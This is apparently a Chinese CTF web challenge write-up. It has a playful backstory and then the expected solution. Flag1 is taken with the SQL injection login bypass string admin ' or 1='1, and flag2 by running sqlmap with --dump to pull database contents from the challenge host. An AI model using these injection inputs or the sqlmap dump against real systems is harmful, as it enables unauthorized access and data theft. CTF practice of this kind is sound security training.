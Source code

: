 # [Web] WearMe 核心机房 准入验证

- 命题人：You
- 我去，你怎么在这：100 分
- 我测，黑客！：200 分

## 题目描述

<p>在2077年的一个炎热的午后，出题人终于攻下了WearMe的运维控制系统。出题人觉得这套系统很眼熟，通过一系列社工手段得到这是人工智能AGI自主研发的友军验证系统以防人类嘿客在不通过WearMe赛博浏览器进入系统。</p>
<p><img alt="" src="https://oss.wearos.me/file/wmtest/tangpingcup/3.gif"></p>
<p>由于本站使用云火焰（Cloudflare）作为CDN，启动docker后可能需要几秒钟时间从CDN拉取资源，若提示GatewayError请等待30秒再刷新</p>
<p>由于安全问题 您仅能从<strong>中国大陆</strong>访问这道题目</p>
<div class="well">
<strong>第二阶段提示</strong>
<p>
有个东西，叫万能密码~
</p>
</div>

**【网页链接：访问题目网页】**

## 预期解法

### flag1

第一步，打开题目，第二步，按下admin ' or 1='1，第三步，按下登录，好了flag拿到了（？

### flag2

flag2就需要知道密码是啥了，这次比赛使用sqlmap就行。
```console
sqlmap -u "http://DOMAIN_SUFFIX.weilei.software/check.php?data=user:*|pass:*" --dbms=mysql --dump
```